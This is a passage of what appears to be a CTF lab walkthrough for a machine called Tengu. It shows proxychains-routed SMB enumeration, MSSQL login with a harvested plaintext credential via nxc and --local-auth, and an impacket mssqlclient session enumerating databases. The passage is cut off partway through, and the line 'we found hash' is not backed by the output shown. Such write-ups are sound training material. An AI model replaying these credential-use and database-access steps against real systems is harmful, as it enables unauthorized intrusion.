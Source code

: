 now we got smb back from DC and SQL

    ➜  Tengu proxychains -q nxc smb 10.10.158.53
    SMB         10.10.158.53    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
    ➜  Tengu proxychains -q nxc smb 10.10.158.54
    SMB         10.10.158.54    445    SQL              [*] Windows Server 2022 Build 20348 (name:SQL) (domain:tengu.vl) (signing:False) (SMBv1:False)

so we got creds maybe its about mssql while we working with SQL part at starting part and actually our creds work here with —local-auth flag

    ➜  Tengu proxychains -q nxc mssql 10.10.158.54 -u "nodered_connector" -p "DreamPuppyOverall25" 
    MSSQL       10.10.158.54    1433   SQL              [*] Windows Server 2022 Build 20348 (name:SQL) (domain:tengu.vl)
    MSSQL       10.10.158.54    1433   SQL              [-] tengu.vl\nodered_connector:DreamPuppyOverall25 (Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication. Please try again with or without '--local-auth')
    ➜  Tengu proxychains -q nxc mssql 10.10.158.54 -u "nodered_connector" -p "DreamPuppyOverall25"  --local-auth
    MSSQL       10.10.158.54    1433   SQL              [*] Windows Server 2022 Build 20348 (name:SQL) (domain:tengu.vl)
    MSSQL       10.10.158.54    1433   SQL              [+] SQL\nodered_connector:DreamPuppyOverall25 

we can run command directly 😉

    ➜  Tengu proxychains -q nxc mssql 10.10.158.54 -u "nodered_connector" -p "DreamPuppyOverall25"  --local-auth -q "SELECT @@Version"
    MSSQL       10.10.158.54    1433   SQL              [*] Windows Server 2022 Build 20348 (name:SQL) (domain:tengu.vl)
    MSSQL       10.10.158.54    1433   SQL              [+] SQL\nodered_connector:DreamPuppyOverall25 
    MSSQL       10.10.158.54    1433   SQL              Microsoft SQL Server 2022 (RTM) - 16.0.1000.6 (X64) 
        Oct  8 2022 05:58:25 
        Copyright (C) 2022 Microsoft Corporation
        Developer Edition (64-bit) on Windows Server 2022 Standard 10.0 <X64> (Build 20348: ) (Hypervisor)

lets get mssql connect

    ➜  Tengu proxychains -q python3 /opt/impacket/examples/mssqlclient.py tengu.vl/nodered_connector:'DreamPuppyOverall25'@10.10.158.54             
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: Dev
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(SQL): Line 1: Changed database context to 'Dev'.
    [*] INFO(SQL): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
    [!] Press help for extra shell commands
    SQL (nodered_connector  nodered_connector@Dev)> 

we found hash

    SQL (nodered_connector  nodered_connector@Dev)> SELECT name FROM master..sysdatabases
    name     
    ------   
    master   
